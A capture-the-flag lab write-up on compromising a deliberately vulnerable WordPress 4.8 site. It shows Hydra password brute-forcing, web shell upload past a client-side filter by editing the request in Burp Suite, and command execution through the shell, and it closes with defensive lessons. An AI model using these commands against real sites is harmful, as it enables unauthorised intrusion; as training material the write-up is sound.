







# Host-Based Attacks: WordPress Exploitation CTF
### Capture The Flag Lab Writeup

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [Lab Environment Overview](#2-lab-environment-overview)
3. [Phase 1 — WordPress Reconnaissance with WPScan](#3-phase-1--wordpress-reconnaissance-with-wpscan)
4. [Phase 2 — Credential Brute-Force and Authentication](#4-phase-2--credential-brute-force-and-authentication)
5. [Phase 3 — Vulnerability Research](#5-phase-3--vulnerability-research)
6. [Phase 4 — Exploitation via Arbitrary File Upload](#6-phase-4--exploitation-via-arbitrary-file-upload)
7. [Phase 5 — Remote Command Execution and Flag Retrieval](#7-phase-5--remote-command-execution-and-flag-retrieval)
8. [Summary of Findings](#8-summary-of-findings)
9. [Conclusions and Lessons Learned](#9-conclusions-and-lessons-learned)

---

## 1. Introduction

This report documents the methodology, tools, and findings from a Capture The Flag (CTF) lab exercise focused on host-based attacks against a vulnerable WordPress installation. The objective of this assessment was twofold: first, to gain administrative access to the WordPress dashboard through credential attacks, and second, to leverage that access to achieve remote code execution on the underlying host and retrieve a flag file from the file system.

This lab represents a complete attack chain typical of real-world web application penetration testing engagements, encompassing:

- **Web application fingerprinting and enumeration** using WPScan
- **Authentication mechanism analysis** and **credential brute-forcing** using Hydra
- **Vulnerability research** against identified software versions and plugins using Searchsploit and the Metasploit Framework
- **Exploitation of an arbitrary file upload vulnerability**, including manual bypass of client-side file type restrictions using Burp Suite
- **Web shell deployment and remote command execution**
- **File system enumeration and flag extraction**

All activities were performed within an isolated, authorised lab environment. No live or production systems were involved.

---

## 2. Lab Environment Overview

| Parameter          | Details                                            |
|---------------------|-----------------------------------------------------|
| Attacker Machine    | Kali Linux (GUI access provided)                    |
| Target URL          | `http://demo.ine.local`                             |
| Target Application  | WordPress 4.8 (Apache/2.4.18 Ubuntu)                |
| Wordlist Used       | `/root/Desktop/wordlists/100-common-passwords.txt`  |

### Tools Used

| Tool                               | Purpose                                                       |
|-------------------------------------|----------------------------------------------------------------|
| `WPScan`                            | WordPress-specific vulnerability and configuration scanner    |
| `Hydra`                              | Automated HTTP POST form credential brute-forcing             |
| `Burp Suite`                         | HTTP request interception and manipulation (Proxy)             |
| `Searchsploit`                       | Offline Exploit-DB search utility                              |
| `Metasploit Framework`               | Exploit module testing and execution                           |
| Web Browser (Firefox + FoxyProxy)   | Dashboard interaction and proxy routing to Burp Suite          |

### Objectives

1. Gain administrative access to the WordPress dashboard at `http://demo.ine.local`.
2. Achieve a remote shell, or equivalent command execution, on the underlying host machine.
3. Retrieve the flag file stored on the target file system.

---

## 3. Phase 1 — WordPress Reconnaissance with WPScan

### Methodology

The assessment began with automated reconnaissance using **WPScan**, a purpose-built WordPress vulnerability scanner that identifies the WordPress core version, active theme, installed plugins, and common misconfigurations through a combination of passive and aggressive detection techniques.

### Command Used

```bash
wpscan --url http://demo.ine.local
```




### Key Findings

| Finding                          | Detail                                                                       |
|------------------------------------|---------------------------------------------------------------------------|
| Web Server                        | Apache/2.4.18 (Ubuntu)                                                      |
| `robots.txt`                      | Present and accessible                                                      |
| XML-RPC                           | Enabled at `/xmlrpc.php`                                                    |
| WordPress `readme.html`           | Accessible, confirming installation details                                 |
| Upload Directory Listing          | Directory listing enabled at `/wp-content/uploads/`                         |
| WP-Cron                           | External WP-Cron appears enabled                                            |
| **WordPress Core Version**        | **4.8** (released 2017-06-08, flagged as insecure/outdated)                 |
| Active Theme                      | Twenty Seventeen, version 1.3 (outdated; latest is 2.9)                     |
| **Identified Plugin**             | **wp-responsive-thumbnail-slider**, version 1.0 (outdated; latest is 1.1.8) |

### Analysis

The scan immediately surfaced several points of interest. Most significantly, the WordPress core version (4.8) was several years out of date, and the installed plugin `wp-responsive-thumbnail-slider` was running its original release version (1.0). Outdated plugins are a frequent source of exploitable vulnerabilities, as older versions often have publicly disclosed flaws that have since been patched in later releases. This plugin was flagged for further investigation during the vulnerability research phase.

---

## 4. Phase 2 — Credential Brute-Force and Authentication

### Methodology

With no immediately exploitable unauthenticated vulnerability identified, the next step was to attempt to gain valid administrative credentials through a dictionary-based brute-force attack against the WordPress login form.

### Step 1: Identify the Login Failure Signature

Before configuring an automated brute-force attack, it was necessary to determine the exact error message returned by WordPress upon a failed login attempt. This message serves as a "failure string," which Hydra uses to distinguish unsuccessful attempts from successful ones.

A manual login attempt was made at `http://demo.ine.local/wp-admin` using arbitrary credentials. The resulting error page displayed a message beginning with:

```
The password you entered for the username ...
```



This string was identified as a reliable failure indicator for use with Hydra's HTTP POST form module.

### Step 2: Brute-Force the Login Form with Hydra

```bash
hydra -l admin -P /root/Desktop/wordlists/100-common-passwords.txt demo.ine.local \
  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered for the username"
```

**Command Breakdown:**

- `-l admin` — specifies a single, fixed username (`admin`) to test, based on the standard WordPress default administrative account name.
- `-P /root/Desktop/wordlists/100-common-passwords.txt` — supplies the password wordlist to iterate through.
- `http-post-form` — instructs Hydra to use its HTTP POST form brute-force module.
- The form definition string specifies the target endpoint (`/wp-login.php`), the POST body parameters (`log`, `pwd`, `wp-submit`) populated with Hydra's `^USER^` and `^PASS^` placeholders, and the failure condition string (`F=...`) used to detect unsuccessful login attempts.

### Result

```
[80][http-post-form] host: demo.ine.local   login: admin   password: lawrence
```

Valid administrative credentials were recovered: **`admin:lawrence`**.

### Step 3: Authenticate to the WordPress Dashboard

The recovered credentials were used to log in successfully at `/wp-admin`, granting full administrative access to the WordPress dashboard. The "At a Glance" panel within the dashboard was reviewed and confirmed the WordPress version (4.8) previously identified by WPScan, validating the earlier reconnaissance.



### Analysis

The use of a default username (`admin`) combined with a password present in a list of the 100 most common passwords represents a critical authentication weakness. WordPress login forms are a common brute-force target precisely because of this pattern: many installations retain the default `admin` username, reducing a two-variable brute-force problem (username and password) to a single variable.

---

## 5. Phase 3 — Vulnerability Research

### Methodology

With administrative access confirmed, the focus shifted to identifying a vulnerability that could be leveraged to achieve code execution on the underlying server. The WordPress core version, active theme, and installed plugin identified during reconnaissance were each researched using **Searchsploit**, a command-line interface to the Exploit-DB vulnerability archive.

### Step 1: Search for WordPress Core Vulnerabilities

```bash
searchsploit Wordpress 4.8
```

This returned a range of results, including authenticated arbitrary file deletion, unauthenticated content disclosure, and a denial-of-service vulnerability affecting `xmlrpc.php`. None of these results provided a direct path to remote code execution suited to the lab's objectives.

### Step 2: Search for Theme Vulnerabilities

```bash
searchsploit twentyseventeen
```

No results were returned for the active theme, ruling it out as a viable attack vector.

### Step 3: Search for Plugin Vulnerabilities

```bash
searchsploit wordpress thumbnail slider
```

**Results:**

```
WordPress Plugin Responsive Thumbnail Slider - Arbitrary File Upload (Metasploit)   | php/remote/45099.rb
WordPress Plugin Responsive Thumbnail Slider 1.0 - Arbitrary File Upload            | php/webapps/37998.txt
```

This search returned two highly relevant results, both describing an **arbitrary file upload vulnerability** in version 1.0 of the `wp-responsive-thumbnail-slider` plugin — precisely the version and plugin identified during the WPScan reconnaissance phase. An arbitrary file upload vulnerability is particularly valuable to an attacker, as it can typically be leveraged to upload a web shell and achieve remote command execution.

### Analysis

This phase illustrates the value of correlating reconnaissance findings (specific software and version numbers) against public vulnerability databases. The precise version match between the WPScan output and the Exploit-DB entry strongly indicated that the target was a deliberately vulnerable instance of this plugin.

---

## 6. Phase 4 — Exploitation via Arbitrary File Upload

### Methodology

Two exploitation paths were available: an automated Metasploit module and a manual proof-of-concept requiring HTTP request manipulation. Both were attempted in sequence.

### Step 1: Attempt Automated Exploitation via Metasploit

```bash
msfconsole
setg RHOSTS demo.ine.local
setg RHOST demo.ine.local
search type:Exploit name:"wordpress thumbnail slider"
```

**Module Identified:**

```
exploit/multi/http/wp_responsive_thumbnail_slider_upload
```

The module options were reviewed and configured, including the recovered WordPress credentials:

```
set WPPASSWORD lawrence
```

**Result:**

```
[*] Started reverse TCP handler on 192.205.160.2:4444
[-] Exploit aborted due to failure: no-access: Unable to log into WordPress
[*] Exploit completed, but no session was created.
```

The Metasploit module failed to authenticate, despite using credentials confirmed valid via the dashboard login. This discrepancy was not pursued further, and the assessment proceeded to the manual exploitation method described in the Exploit-DB proof-of-concept.

### Step 2: Prepare a Web Shell with a Disguised Extension

The manual proof-of-concept (Exploit-DB entry 37998) described the vulnerability as a file upload flaw exploitable by uploading a file with a double extension (e.g. `shell.php.jpg`) through the plugin's image uploader, then using an intercepting proxy to strip the trailing image extension before the request reaches the server.

A standard PHP web shell was copied locally and renamed to disguise it as a JPEG image, satisfying the client-side file type filter:

```bash
cp /usr/share/webshells/php/simple-backdoor.php .
mv simple-backdoor.php simple-backdoor.php.jpg
```

### Step 3: Configure Burp Suite as an Intercepting Proxy

The Firefox browser was configured via the FoxyProxy extension to route traffic through Burp Suite's listener. Burp Suite's **Intercept** feature was enabled, allowing each outgoing HTTP request to be paused and reviewed before transmission to the server.



### Step 4: Upload the Disguised File via the Plugin Interface

Within the WordPress dashboard, the **Responsive Thumbnail Slider → Manage Image** interface was used to initiate the file upload. The disguised file `simple-backdoor.php.jpg` was selected for upload.



### Step 5: Intercept and Modify the Upload Request

With the request intercepted in Burp Suite, the relevant `Content-Disposition` header was located within the multipart form body:

**Original:**

```
Content-Disposition: form-data; name="image_name"; filename="simple-backdoor.php.jpg"
Content-Type: image/jpeg
```

**Modified:**

```
Content-Disposition: form-data; name="image_name"; filename="simple-backdoor.php"
Content-Type: image/jpeg
```

The filename was edited to remove the trailing `.jpg` extension, while the `Content-Type` header was deliberately left set to `image/jpeg` to satisfy any server-side MIME type checks. The modified request was then forwarded to the server using Burp Suite's **Forward** action.



### Step 6: Confirm Successful Upload

Following the modified request, the uploaded file appeared within the plugin's image management interface in the WordPress dashboard, confirming that the server had accepted and stored the file with its `.php` extension intact.



### Analysis

This vulnerability stems from a classic file upload validation flaw: the application's file type restriction was enforced only at the client side (via the upload form's JavaScript-driven checks), with no corresponding server-side validation of the file's actual extension or content type upon receipt. By intercepting the request after the client-side check had already passed but before the server processed it, the `.jpg` extension was stripped from the filename, causing the server to store — and subsequently execute — the file as PHP code rather than treating it as a static image.

---

## 7. Phase 5 — Remote Command Execution and Flag Retrieval

### Methodology

With the web shell successfully uploaded, the next step was to locate its accessible URL and use it to execute commands on the underlying server.

### Step 1: Locate the Uploaded Shell

Clicking through the plugin dashboard's edit interface for the uploaded image revealed its stored location on the server:

```
http://demo.ine.local/wp-content/uploads/wp-responsive-images-thumbnail-slider/fd3819b59a2a5c4ddfcf0c3b0c6e3fc2.php
```

Visiting this URL directly returned the web shell's usage banner:

```
Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
```

This confirmed that the file was being correctly interpreted and executed as PHP by the server, rather than served as a static image file, validating the success of the exploit.

### Step 2: Confirm Command Execution

A simple command was issued via the `cmd` GET parameter to confirm code execution and identify the privilege context of the web server process:

```
http://demo.ine.local/wp-content/uploads/wp-responsive-images-thumbnail-slider/fd3819b59a2a5c4ddfcf0c3b0c6e3fc2.php?cmd=whoami
```

**Result:**

```
www-data
```

This confirmed remote command execution under the `www-data` service account, the standard low-privilege user under which Apache/PHP processes typically run on Debian-based systems.

### Step 3: Enumerate the File System

An initial listing of the web root was performed to orient within the file system:

```
http://...php?cmd=ls+/
```

**Output:**

```
bin   boot   dev   dmp.sql   etc   home   lib   lib64
media   mnt   opt   proc   root   run   run.sh
sbin   srv   start-mysqld.sh   sys   tmp   usr   var
```

No flag file was immediately visible in the root directory listing, necessitating a recursive search across the file system.

### Step 4: Search the File System for the Flag

The `find` command was used to recursively search the entire file system for any file or directory containing the string "flag" in its name, with errors suppressed and redirected to `/dev/null` to keep the output clean:

```bash
find / -iname *flag* 2>/dev/null
```

Because this command contains characters requiring proper handling within a URL query string, it was encoded using Burp Suite's built-in URL encoder before being submitted via the `cmd` parameter:

```
http://demo.ine.local/wp-content/uploads/wp-responsive-images-thumbnail-slider/fd3819b59a2a5c4ddfcf0c3b0c6e3fc2.php?cmd=%66%69%6e%64%20%2f%20%2d%69%6e%61%6d%65%20%2a%66%6c%61%67%2a%20%32%3e%2f%64%65%76%2f%6e%75%6c%6c
```

**Result (relevant excerpt):**

```
/var/www/html/91b2f916340-FLAG
```

A file matching the search pattern was located within the web root directory.

### Step 5: Retrieve the Flag

```
http://demo.ine.local/wp-content/uploads/wp-responsive-images-thumbnail-slider/fd3819b59a2a5c4ddfcf0c3b0c6e3fc2.php?cmd=cat+/var/www/html/91b2f916340-FLAG
```

**Flag Captured:**

```
2178184f410766ecdda302962a9849a2
```

### Analysis

The full attack chain — from initial reconnaissance through credential compromise, vulnerability identification, exploitation, and post-exploitation file system enumeration — culminated in confirmed remote code execution and successful retrieval of the target flag. The use of URL encoding to safely transmit a complex shell command through a GET parameter demonstrates a practical technique frequently required when interacting with simple web shells that lack robust input handling.

---

## 8. Summary of Findings

| Phase | Technique                                  | Outcome                                                |
|-------|----------------------------------------------|---------------------------------------------------------|
| 1     | WPScan reconnaissance                        | Identified outdated WordPress core (4.8) and vulnerable plugin (wp-responsive-thumbnail-slider 1.0) |
| 2     | Hydra HTTP POST form brute-force             | Recovered valid admin credentials (`admin:lawrence`)    |
| 3     | Searchsploit vulnerability research          | Identified arbitrary file upload vulnerability in plugin |
| 4     | Burp Suite request manipulation              | Bypassed client-side file extension filter, achieved web shell upload |
| 5     | Web shell command execution                  | Achieved RCE as `www-data`; located and retrieved flag file |

### Vulnerabilities Identified

1. **Weak Administrative Credentials** — The `admin` account was protected only by a password present within a list of the 100 most common passwords, allowing it to be recovered via automated brute-force within a trivial number of attempts.

2. **Outdated WordPress Core and Plugin** — The WordPress installation (version 4.8) and the `wp-responsive-thumbnail-slider` plugin (version 1.0) were both significantly outdated, leaving the application exposed to publicly documented and patched vulnerabilities.

3. **Arbitrary File Upload (Client-Side Validation Only)** — The thumbnail slider plugin's image upload functionality enforced file type restrictions exclusively on the client side. No server-side validation of file extension or content existed, permitting upload and execution of arbitrary PHP code disguised as an image file.

4. **Directory Listing Enabled** — The `/wp-content/uploads/` directory permitted directory listing, which could assist an attacker in locating uploaded files or other sensitive content without prior knowledge of exact file paths.

5. **Lack of Execution Restrictions on Upload Directory** — The web server was configured to execute PHP files located within the uploads directory. Properly hardened deployments disable script execution within upload directories at the web server configuration level, which would have prevented this exploit chain entirely regardless of the upload validation flaw.

---

## 9. Conclusions and Lessons Learned

This lab demonstrated a complete, realistic web application compromise: from initial automated reconnaissance through credential attack, vulnerability research, exploitation of a file upload flaw, and post-exploitation enumeration culminating in flag retrieval. Each phase logically informed the next, and no individual step required advanced or novel techniques — only the disciplined application of standard reconnaissance, brute-force, and exploitation methodologies.

### Attack Chain Summary

```
WPScan Reconnaissance
    └─► WordPress 4.8 + wp-responsive-thumbnail-slider 1.0 identified

Hydra HTTP POST Form Brute-Force
    └─► admin:lawrence recovered
            └─► Dashboard access confirmed

Searchsploit Vulnerability Research
    └─► Arbitrary File Upload vulnerability (plugin v1.0) identified

Burp Suite Request Interception
    └─► Double-extension upload (.php.jpg) + filename modification
            └─► PHP web shell successfully stored on server

Web Shell Command Execution (www-data)
    └─► File system enumeration via find
            └─► Flag located at /var/www/html/91b2f916340-FLAG
                    └─► FLAG CAPTURED: 2178184f410766ecdda302962a9849a2
```

### Key Takeaways

- **Automated reconnaissance tools provide critical targeting intelligence.** WPScan's precise version fingerprinting of both the WordPress core and an installed plugin directly enabled the subsequent vulnerability research phase, demonstrating the value of thorough enumeration before attempting exploitation.

- **Default usernames combined with weak passwords remain a significant risk.** The `admin` account's password was recoverable from a list of only 100 common passwords, underscoring the necessity of enforced password complexity policies and protections such as account lockout or rate limiting on login endpoints.

- **Client-side validation is not a security control.** The plugin's file upload restriction could be trivially bypassed by intercepting and modifying the HTTP request after client-side checks had already passed. All file type, size, and content validation must be enforced server-side.

- **Upload directories should never permit script execution.** Even where an upload vulnerability exists, configuring the web server to deny script execution within upload directories (for example, via Apache's `php_admin_flag engine off` directive scoped to the uploads path) would have prevented this specific exploit from achieving code execution.

- **Keeping software up to date is a foundational defence.** Both the outdated WordPress core and the outdated plugin version were directly responsible for the presence of exploitable, publicly documented vulnerabilities. Timely patching remains one of the most effective and lowest-cost mitigations available.

- **Automated exploitation tools may fail where manual techniques succeed.** The Metasploit module for this vulnerability failed to authenticate despite valid credentials, while the manual Burp Suite-based approach succeeded. This reinforces the value of understanding underlying exploitation mechanics rather than relying solely on automated tooling.

---

*Report completed: June 30, 2026*
*Lab: Host-Based Attacks — WordPress Exploitation CTF*
*Platform: INE Security / eLearnSecurity*
